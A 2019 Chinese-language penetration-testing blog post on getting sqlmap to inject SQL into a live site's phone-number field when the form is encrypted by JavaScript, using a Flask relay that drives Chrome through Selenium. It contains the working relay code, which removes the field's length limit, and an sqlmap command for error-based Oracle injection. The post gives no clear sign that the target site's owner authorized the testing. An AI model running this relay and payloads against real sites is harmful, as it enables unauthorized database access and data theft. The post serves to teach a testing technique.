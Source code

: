 +++
title = "通过 selenium 和 flask 中转后利用 sqlmap 进行注入"
topics = [""]
tags = [""]
description = "渗透测试中有时候前端提交的数据会进行加密之类的操作，有些加密的函数还不好找，其实可以用 selenium 调用 chrome 驱动中转后进行测试。"
date = "2019-07-27T18:15:25+08:00"
draft = false
+++

<!--
 * @Author: reber
 * @Mail: reber0ask@qq.com
 * @Date: 2019-07-27 18:15:25
 * @LastEditTime: 2019-07-27 22:53:59
 -->
### 0x00 先说前提
昨天某个小伙伴说有个注入没法搞
![60](/img/post/Xnip2019-07-27_19-20-07.png)

前端提交登陆表单时数据包加密了，而且有个 sign 字符串每次都不一样用于校验，应该是用 js 加密了
![](/img/post/Xnip2019-07-27_18-40-20.png)
![](/img/post/Xnip2019-07-27_18-41-18.png)

### 0x01 找加密的 js 文件
注入的地方是获取验证码时的手机号，刚开始想着先找到 js 加密的函数，然后生成 sign 再组数据包发送。

就像 [记一次SQL Server报错注入](http://localhost:1313/posts/2018/recording-an-sqlserver-sql-injection-of-error-based/) 中一样，用 selenium 或者 PhantomJS 执行 js 代码生成sign

一番查找发现了加密的 js 文件函数，但是用的是 angular 这个前端框架，没用过这个东西。。。。。
![80](/img/post/Xnip2019-07-27_19-06-48.png)
![80](/img/post/Xnip2019-07-27_19-12-37.png)

能看懂一般的 js 代码，但是这个没得搞，不懂。。。

### 0x02 数据中转
本来昨天我已经放弃了的，结果今天上午小伙伴又找我了，说还没有整好，又看了一通 js，仍然无解，看不懂。。。

想起来昨天有个大佬说过可以中转数据，用 PhantomJS + flask 这样、那样、再这样，然后就可以用 sqlmap 跑了😳

<div style="display: flex;align-items: center;justify-content: center;">
    <img src="/img/post/Xnip2019-07-27_20-01-02.png" style="width: 50%;height: 50%;" />
</div><br>

虽然很早以前用过 asp 的 [Cookie 注入中转](http://wyb0.com/posts/2015/injection-of-asp-in-the-cookie/?_blank) ，但是那个是软件，一直没有搞懂原理，现在正好趁机学下

经过各种百度，大概明白了，应是本地起个 server，sqlmap 就扫描这个 server，server 接收到 payload 后将 payload 加到表单中，然后模拟提交表单

### 0x03 selenium 和 flask 进行中转
没有接触过 PhantomJS，但是 selenium 以前用过，可以尝试下

大概看了下，我们需要注意动态的消息提示框，需要处理 input 的长度
![90](/img/post/Xnip2019-07-27_20-25-39.png)

大概代码就是这样了👇

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
'''
@Author: reber
@Mail: reber0ask@qq.com
@Date: 2019-03-22 16:22:59
@LastEditTime: 2019-07-22 09:17:05
'''

import time
from lxml import etree
from flask import Flask
from flask import request
from selenium import webdriver
from selenium.webdriver.chrome.options import Options

# chrome_options = Options()
# chrome_options.add_argument('--headless')
# chrome = webdriver.Chrome(executable_path="/opt/chromedriver", options=chrome_options)
chrome = webdriver.Chrome(executable_path="/opt/chromedriver")
chrome.get("https://cx.xxxxxxx.cn/#dashboard")


app = Flask(__name__)

def send(payload):
    # 用两种登陆方式，这里切换到验证码登陆方式
    chrome.find_element_by_link_text("手机登录").click()

    # 手机号长度有限制，去除 input 的 maxlength 属性
    chrome.execute_script("document.getElementById('modile').removeAttribute('maxlength')")

    # 给 input 标签赋值
    chrome.find_element_by_id("modile").send_keys(payload)

    # 点击发送验证码
    chrome.find_element_by_id("BtnphoneNote").click()

    # 网速不好时服务器返回数据慢所以用 while
    while True:
        selector = etree.HTML(chrome.page_source)
        message = selector.xpath("//div[@class='ng-binding ng-scope']/text()")
        if message:
            time.sleep(0.5)
            # 得到返回的信息后，关闭信息提示框，然后清楚 input 的内容便于发送下一个 payload
            chrome.find_element_by_class_name("close").click()
            chrome.find_element_by_id("modile").clear()
            break
        time.sleep(0.5)
    return "ttttt"+message[0]

@app.route('/')
def index():
    payload = request.args.get("payload")
    return send(payload)


if __name__ == "__main__":
    app.run()
```

### 0x04 sqlmap 测试效果
* 启动 flask 服务

```
[16:09 reber@wyb at ~/Pentest]
➜  python3 tmp.py
* Serving Flask app "tmp" (lazy loading)
* Environment: production
WARNING: Do not use the development server in a production environment.
Use a production WSGI server instead.
* Debug mode: off
* Running on http://127.0.0.1:5000/ (Press CTRL+C to quit)
```

* 使用 sqlmap 尝试扫描

```
sqlmap --risk 2 --level 3 --tamper space2comment --batch --random-agent -u "http://127.0.0.1:5000/?payload=13188888888*" --dbms="Oracle" --technique=E --current-db
```

* flask 接收到了payload

![](/img/post/Xnip2019-07-27_20-42-19.png)

* sqlmap 执行结果

![](/img/post/Xnip2019-07-27_20-40-16.png)


<br>
#### Reference(侵删)：
* [sqlmap 代理绕过参数 hash 验证](https://www.0dayhack.com/post-677.html?_blank)